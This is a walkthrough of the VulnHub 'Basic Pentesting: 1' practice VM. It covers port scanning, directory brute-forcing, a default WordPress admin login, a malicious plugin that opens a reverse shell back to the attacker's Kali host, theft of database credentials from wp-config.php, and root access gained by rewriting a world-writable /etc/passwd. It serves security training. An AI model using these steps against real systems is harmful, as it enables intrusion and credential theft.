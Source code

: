 # Basic Pentesting: 1
[VulnHub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)  
By Josiah Pierce  

* After the VM has been booted up, we are greeted with a login page that request for the password of user marlinspike.
* The IP address of the VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the VM. No nmap scans are thus needed.
* The IPv4 address of the VM is 192.168.110.135.
* From our Kali VM, execute `nmap -sS 192.168.110.135`.
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). These results are loaded instantly after the command is executed - it is likely that the scan result was cached(?).
* We visit 192.168.110.135 and find a web server running. The page says "It works!".
* Note: Viewing the page source reveals no additional information.
* Note: /admin, /login.php, /robots.txt are invalid pages as well.
* Though the page also said that "no content has been added yet", we cannot necessarily trust it: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put 192.168.110.135 into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in /usr/share/dirbuster/wordlists. We will use `directory-list-lowercase-2.3-small.txt` for a start. We will also use `30 threads`.
* While waiting for dirbuster to do its job, we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-content`, `wp-includes`, etc.
* With 192.168.110.135/secret, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, open our Hosts file in Kali: `sudo nano /etc/hosts` and add in 2 entries: `192.168.110.135 vtcsec` and `192.168.110.135 vtcsec.com`. Save the file once done. What this means is that the IP address of vtcsec is determined by us to be 192.168.110.135, and any  accesses to vtcsec will access 192.168.110.135, instead of trying to find out its IP address from a DNS server.
* Note: The vtcsec.com mapping is added just in case there might be a case where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Reload `192.168.110.135/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub link)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by opening the Git repository from our terminal, and execute `python wordpwn.py 192.168.110.132 4000`. The IP address in the parameter is that of the Kali machine.
* The payload is then generated in a .zip file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only commented codes in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval functions.
* Next, we head to `vtcsec/secret/wp-contet/plugins/malicious/wetw0rk_maybe.php`.
* Heading back to our Kali terminal, we see that a session has been opened, and enter `shell`. Executing `whoami`, we see that we are www-data. We have now successfully logged into the victim VM.
* From the reverse shell which we have gotten, we can go up a few levels of directory to the one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php /root`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub link)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems".
* From our reverse shell, cd to `/var/www/html`, which hosts the secret page. We will now upload the tool to the victim VM: `upload /root/unix-privesc-check`.
* Give executable permissions to the script via chmod, and then `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to the output text file. Next, download output.txt to /root.
* Search for the string "WARNING" output.txt and we see that one of the findings is that `/etc/passwd` can be written by anyone. Download the /etc/passwd file to /root.
* The first line of /etc/passwd is `root:x:0:0:root:/root:/bin/bash`. We see an `x`, which is a holding place for root's "encrypted password". Traditionally, this field actually stored the user's encrypted password. Modern Unix systems store encrypted passwords in a separate file (the shadow password file) that can be accessed only by privileged users.
* However, we can overwrite the `x` with a hash of a known password.
* Run `openssl passwd -1`, and enter a simple password (e.g. `pass`). `openssl passwd` computes the hash of our password typed at run-time in this case. Replace the `x` with our hash value, save the file, and upload the file back to the victim VM.
* Note: `-1` means the use of MD5 based BSD password algorithm 1.
* Execute `su root -l`, but there is an error stating that su must be run from a terminal. Execute `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a proper shell.
* Note: `-l` means `--login`, i.e. to start the shell as a login shell with an environment similar to a real login.
* Enter our password created above (e.g. `pass`), and we have got root access!
